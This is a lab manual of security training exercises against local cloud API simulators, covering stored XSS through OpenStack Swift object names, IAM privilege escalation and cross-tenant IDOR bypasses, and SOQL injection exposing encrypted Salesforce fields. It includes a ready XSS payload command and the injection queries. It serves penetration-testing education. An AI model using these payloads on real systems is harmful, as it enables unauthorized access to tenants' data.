

# Exercises

A walkthrough of some sample exercises is provided next. Each respective cloud API simulator also contains additional exercises for you to explore outside of this content.

Each exercise assumes that you have already setup the simulator servers and the respective client tools.

---

<details>
<summary>Cross-site Scripting with REST APIs</summary>



From a web browser (connected with your HTTP MitM Proxy, Burp) navigate to:
> `http://localhost:9080/REST/API/endpoint.cgi`
- If you are using Firefox and your requests are not showing up in Burp try a URL like `http://localtest.me:9080/REST/API/endpoint.cgi`

Observe that the page renders a listing of files stored in a backend OpenStack Swift (Object Storage). In the first release for customers they could use the upload functionality of this page to upload files to the server for storage.

Observe that if you attempt to upload a file with a filename that does not comply to the restrictions that you are blocked. Feel free to try repeating a few malicious payloads via Burp in an attempt to inject XSS on the list page. During the first pen test the service was not found vulnerable to XSS.

##### Customer Version 2
Months later customers demanded a way to more easily bulk upload millions of their data files. The application was updated to allow customers to use the OpenStack cloud REST APIs to perform bulk uploads via the Swift service.

Our subsequent pen test will uncover that an attacker can bypass the filename character input validation and cause XSS to be exploited on the application.

### Useful concepts

1. The Swift CLI for the OpenStack SDK and REST API
   - https://docs.openstack.org/ocata/cli-reference/swift.html
1. Observe: Object Storage != Filesystem Storage nor the same limitations
   - https://docs.openstack.org/api-ref/object-store/index.html#objects
   - https://docs.openstack.org/swift/latest/api/object_api_v1_overview.html

### Baseline Start (QA)

We start by only performing legitimate, expected behaviors (i.e. inputs) of the functionality. This tells us if the service we are testing actually works as well as what a valid request looks like.

```shell
echo $USER > sample_object.txt

swift --insecure -A https://localhost:8080/auth/v1.0 -U system:root -K testpass upload fileuploads ./sample_object.txt

swift --insecure -A https://localhost:8080/auth/v1.0 -U system:root -K testpass upload fileuploads /etc/os-release
```

Observe on the application website (GUI) that the file uploads now appear.

You can also observe the traffic in your HTTP MitM proxy (Burp). You will noticed that there are two calls. One to authenticate with the client credentials and obtain a token. Another to perform the actual upload. In this case we are not attacking the authentication or authorization but instead already have credentials.

### Malicious Input Injection

We observed previously that uploading files via the web browser (HTML/HTTP form upload) resulted in strict validation of the permitted filenames. Is that the case with the standard SDK of the OpenStack REST API?

```shell
swift --insecure -A https://${LAB_OPENSTACK_IP}:8080/auth/v1.0 -U system:root -K testpass copy fileuploads sample_object.txt -d '/fileuploads/easytest<script>alert("you been pwned")</script>forme'
```

Now observe the web UI result. You should see a simple (persistent) XSS payload execute.

Object Storage in the cloud is not strictly file storage. The key name of the object can be a wide range of byte sequences and not strictly characters.

ℹ️ In this example we used an API to copy an item already in the object storage but with a new key name. You could have also uploaded another file with a malicious name. The lesson is that you want to look for multiple possible API calls that were not considered by the application developers to cause unexpected behavior.
</details>

---

<details>
<summary>Authorization Bypass - Privilege Escalation</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/07-impersonation.md

Identity and access management (IAM) controls include policies that define permissions for the caller of the expected actions (APIs) and resources (IDs). These permissions can allow things or deny things based on a variety of conditional states.

A configuration mistake in a policy by the client/customer/tenant can result in unauthorized access to data or the ability to use the service in unwanted ways. This typically falls on the customer-shared responsiblity.

However, the cloud (or service) provider must also ensure that their systems correctly interept both the policy documents and how it is applied to the user inputs. Failure to do so could result in unauthorized access to the tenant's data or privilege escalation.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@000000001111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:000000001111:CareForPets
```

You'll observe a success response from the service. This is because the psuedo-policy allows access to CareForPets. Reference https://github.com/Coalfire-Research/cazt/blob/main/trainee/iam_policies/cazt_scen7_impersonation.json

### Malicious Input Injection

The goal is to bypass the IAM policy through a flaw in the cloud vendor's (responsibility) system to achieve FullAdmin access.

Attempt the following API REST call:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@00000000111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:00000000111:FullAdmin
```

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either
1. Verify that the request is visible in your HTTP MitM proxy (i.e. Burp)
1. The response should indicate that your request to the API was denied

##### Goal

The goal is to get a success response like the following:
```json
{
  "Message": "00000000111 using impersonation arn:cloud:iam:us-texas-9:00000000111:FullAdmin"
}
```

##### Attack Methodologies

1. Identify the input to attack
   - In this case "arn"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - One with the legit value CareForPets, the other FullAdmin
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?

##### Solution

```http
TODO add example
```

```http
TODO add example
```

In this case the software bug in the API was that the policy authorization rules were applied with case sensitivity in parts that were case insensitive.

</details>

---

<details>
<summary>Authorization Bypass - IDOR / Confused Deputy</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/02-cross_tenant.md

Identity and access management (IAM) controls include policies that define permissions defined by the customer/client/tenant owner. An expectation is that only the permissions the tenant chose to grant would permit access to their account data or resources.

The cloud (or service) provider must also ensure that their systems correctly interept both the policy documents, the inputs coming into an API, and whether the caller (tenant) was granted access. This applies for whether the caller is a member of the same tenant account or belongs to another tenant account.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt get \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen2_cross-tenant@123456789012 \
    --format json \
    --name=NotMyMoggy
```

For cloud APIs you will either observe an unauthorized response or a response that the item was not found (because it looked in your own account which did not have it). In this case we notice that NotMyMoggy was created in the tenant account `000000002222` but the caller's credentials are only for account `123456789012`.

ℹ️ If you need to reset the sample data see [CAZT - Populate sample data](configuration.md#populate-sample-data)

### Malicious Input Injection

In your HTTP MitM proxy (Burp) review your previous get API call.

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either

You will see in a psuedo-IAM policy that it uses a resource identifier that is longer than just a short id. The long-form of a resource ID looks like `arn:cloud:cazt:REGION:ACCOUNTID:SomeResourceNameOnly` or `//iam.googleapis.com/projects/PROJECT_ID/serviceAccounts/SERVICE_ACCOUNT_EMAIL` or `/subscriptions/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx/resourceGroups/myResourceGroup/providers/Microsoft.Compute/virtualMachines/myVM` (it varies by the cloud provider).

##### Goal

The end goal is to call the GetMoggy API from the attacker's  `--account=cazt_scen2_cross-tenant@123456789012` to get the resource that belongs to the victim in account `000000002222`.

```json
{
  "ActivityLogObjectStorage": "moggylitterbox-000000002222",
  "CreatedAt": 1751213493,
  "Description": null,
  "Name": "NotMyMoggy"
}
```

##### Attack Methodologies

1. You may assume that the attacker has knowledge of any API resource nomenclature (ARNs) or resource names belonging to the target victim.
   1. IDs are not secrets nor should knowledge of the ID be the only access control
1. The attacker would configure their own tenant account calling user with administrator (or * wildcard) permissions
   1. The attacker does not have any permissions granted by the target victim
   1. The attacker does control their own account so they would grant themselves (in their own tenant account) full admin
   1. This ensure that if the cloud service checks the caller's permissions to the API action only (but not the target resource input) it would not be blocked prematurely
1. Identify the input to attack
   - In this case "name"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?
1. Are there alternative aliases or conventions for defining the identifier?
   - MyShortID
   - arn:cloud:cazt:REGION:ACCOUNTID:MyShortID

##### Solution

```http
TODO add example
```

```http
TODO add example
```

In this case the API software bug was that it assumed only the short-form which it resolved as a relative alias to the full-length identifier. When supplied with an already resolved identifier it did not perform any resolution against the caller's account ID but just trusted the value given.

</details>

---

<details>
<summary>Encrypted Field Data Access Bypass - SOQL Injection</summary>

### Prerequisites

- Install Setup
  - https://github.com/Coalfire-Research/paas-cloud-goat
- You should be logged in using the standard user profile role
- Your web browser should already be connected to your HTTP MitM proxy (Burp)
- The PaaS Cloud Goat applciation has helpful documentation in the lab exercise pages as well

### Baseline Start (QA)

In the PaaS Cloud Goat "welcome" tab navigate to the "Encrypted Field" page

1. The cloud vendor manages the encryption and keys for the encrypted field feature
1. You will observe that the masked values of the encrypted fields correspond to the exact length of the clear-text data
   1. Think of the feature more as an ACL restriction
   1. By default even your Salesforce org administrator does not get access to encrypted fields
   1. There is a checkbox in the Salesforce configuration for granting access to view the data
      - However, this exercise will demo how to bypass the control without a customer misconfiguration
1. Observe on this screen that a Salesforce API change corrected a common developer mistake
   1. The API used to have a clear-text viewing method that was commonly misused and exposed the data
   2. Now the data appears masked regardless

### Malicious Input Injection

Navigate to the page "SOQL Injection - Variant 3" which will simulate a SOQL vulnerability in the application. Execute the default query and observe the request + response in your HTTP MitM proxy (Burp).

```
POST /apex/SOQLInjection3?isdtp=p1&sfdcIFrameOrigin=https://na-personal-dev-ed.develop.lightning.force.com HTTP/2
Host: na-personal-dev-ed--c.develop.vf.force.com
Cookie: ...REDACTED...
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: ...REDACTED...
Content-Type: application/x-www-form-urlencoded
Content-Length: 8103
Origin: https://na-personal-dev-ed--c.develop.vf.force.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4
Te: trailers

...REDACTED...
j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39=j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id45=Submit&com.salesforce.visualforce.ViewState=...REDACTED...000&com.salesforce.visualforce.ViewStateMAC=AG...REDACTED...%3D&com.salesforce.visualforce.ViewStateCSRF=VmpFPSxNakF5TlMwd09TMHhObFF4TlRvd01qb3dOQzR4TkRaYSxiRmw2U0pWVkFYMXlmZFNLYW5GQ1liSk9jWVZaVXZmOTZ5WVpIYnBNWC1JPSxNVFppTUdNeA%3D%3D
...REDACTED...
```

```
HTTP/2 200 OK
Date: Sat, 13 Sep 2025 15:02:22 GMT
Content-Type: text/html;charset=UTF-8
...REDACTED...

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html lang="en-US"><head><script src="/static/111213/js/perf/stub.js" type="text/javascript"></script><script type="text/javascript">window.Sfdc = window.Sfdc || {};
...REDACTED...
        <h2>Resulting Output</h2>

        <p>
            <pre>[Building__c (Id:a00aj000010xZfbAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Vault, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:42)]
[Building__c (Id:a00aj000010xZfcAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Satellite, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71478)]
[Building__c (Id:a00aj000010xZfdAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:HQ, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:123123)]
[Building__c (Id:a00aj000010xZfeAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Bunker, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71927)]</pre>
        </p></div><div class="pbFooter secondaryPalette"><div class="bg"></div></div></div></div><script type="text/javascript">Sfdc.onReady(function(){
	SfdcApp && SfdcApp.Visualforce && SfdcApp.Visualforce.VSManager && SfdcApp.Visualforce.VSManager.vfPrepareForms(["j_id0:j_id35:j_id36:j_id37:j_id39"]);
...REDACTED...
```

The part of the request that you are interested in is the `&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43`. The input parameter name and path were assembled by the service framework for the developer. If you look at the Apex API controller itself it uses more friendly names such as `query`. If you know the Apex controller APIs parameter names you could use those as well:

```
query=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&querySOQL=Submit
```

Note that you must keep the session identifiers such as:
- com.salesforce.visualforce.ViewState
- com.salesforce.visualforce.ViewStateVersion
- com.salesforce.visualforce.ViewStateMAC
- com.salesforce.visualforce.ViewStateCSRF

##### Goal

The end goal is to retrieve the clear-text values of the encrypted fields.

##### Attack Methodologies

Modify the injectable SOQL query for the API /apex/SOQLInjection3.

We are interested in obtaining the encrypted field Ingredient from the `Secret Sauce` object. Since these are custom objects in Salesforce they will require appending `__c` to get their data schema names.

Take our original, unencoded query that retrieved information about buildings:
```sql
SELECT id,ownerid,isdeleted,name,createddate,createdbyid,lastmodifieddate,lastmodifiedbyid,systemmodstamp,lastvieweddate,lastreferenceddate,entrypin__c FROM Building__c
```

To validate if we've guessed or used the correct object schema name we use well known global attributes:

```sql
SELECT id FROM SecretSauce__c
```

Re-encode the query and submit it to the service. If you get results you know you have a valid query. Otherwise you may get an error page or an empty page.

##### Solution

Continuing with guessing the target schema attribute names we arrive at:

```sql
SELECT id,name,SecretIngredient__c FROM SecretSauce__c
```

We observe that even though the user did not have permission to the encrypted field the injection vulnerability allowed us to access the clear-text data.

</details>
